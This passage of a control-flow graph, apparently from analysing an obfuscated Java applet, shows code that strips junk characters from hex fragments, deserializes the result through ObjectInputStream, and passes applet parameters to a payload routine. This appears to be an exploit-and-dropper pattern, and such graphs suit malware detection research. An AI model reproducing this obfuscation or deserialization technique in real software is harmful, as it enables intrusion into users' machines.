    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7AAAAAA3AAA5AAE8AB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7AAAAAA3AAA5AAE8AB\"";
    "push \"7AAAAAA3AAA5AAE8AB\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4CSS6SS7DDSS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4CSS6SS7DDSS\"";
    "push \"4CSS6SS7DDSS\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"C40PPP9PPPPPPD8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"C40PPP9PPPPPPD8\"";
    "push \"C40PPP9PPPPPPD8\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"02110000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"02110000\"";
    "push \"02110000\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7FFF8FFFF707FFF8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7FFF8FFFF707FFF8\"";
    "push \"7FFF8FFFF707FFF8\""->"push \"F\"";
    "push \"F\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"F5555FF555555F5555F4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"F5555FF555555F5555F4\"";
    "push \"F5555FF555555F5555F4\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ett2Ftt964\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ett2Ftt964\"";
    "push \"Ett2Ftt964\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AxCxxxx00x0xxA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AxCxxxx00x0xxA\"";
    "push \"AxCxxxx00x0xxA\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "staticinvoke <yahoo.Acrobats: byte[] StringToBytes(java.lang.String)>"
    "pop"->"staticinvoke <yahoo.Acrobats: byte[] StringToBytes(java.lang.String)>";
    "store.r r3"
    "staticinvoke <yahoo.Acrobats: byte[] StringToBytes(java.lang.String)>"->"store.r r3";
    "store.r r3"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new java.io.ByteArrayInputStream"
    "pop"->"new java.io.ByteArrayInputStream";
    "store.r r21"
    "new java.io.ByteArrayInputStream"->"store.r r21";
    "load.r r21"
    "store.r r21"->"load.r r21";
    "load.r r3"
    "load.r r21"->"load.r r3";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r3"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r21";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r r21"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "pop"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "push \"6666da6t666a\""
    "load.r r0"->"push \"6666da6t666a\"";
    "push \"6666da6t666a\""->"push \"6\"";
    "push \"6\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <yahoo.Compile: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <yahoo.Compile: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <yahoo.Compile: java.lang.String getParameter(java.lang.String)>"->"store.r r3";
    "store.r r3"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "push \"cnnc\""
    "load.r r0"->"push \"cnnc\"";
    "push \"cnnc\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <yahoo.Compile: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <yahoo.Compile: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "staticget <yahoo.Cloners: yahoo.Cloners instance>"
    "pop"->"staticget <yahoo.Cloners: yahoo.Cloners instance>";
    "staticget <yahoo.Cloners: yahoo.Cloners instance>"->"store.r r21";
    "ifnull goto return"
    "store.r r21"->"ifnull goto return";
    "ifnull goto return"->"load.r r21";
    "load.r r21"->"ifnull goto return";
    "ifnull goto return"->"load.r r3";
    "ifnonnull push 1"
    "load.r r3"->"ifnonnull push 1";
    "ifnonnull push 1"->"push \"\"";
    "push \"\""->"store.r r3";
    "store.r r3"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"staticget <yahoo.Cloners: yahoo.Cloners instance>";
    "staticget <yahoo.Cloners: yahoo.Cloners instance>"->"load.r r3";
    "load.r r3"->"load.r r0";
    "virtualinvoke <yahoo.Cloners: void __I(java.lang.String,java.lang.String)>"
    "load.r r0"->"virtualinvoke <yahoo.Cloners: void __I(java.lang.String,java.lang.String)>";
    "goto return"
    "virtualinvoke <yahoo.Cloners: void __I(java.lang.String,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <yahoo.Cloners: void __I(java.lang.String,java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
}
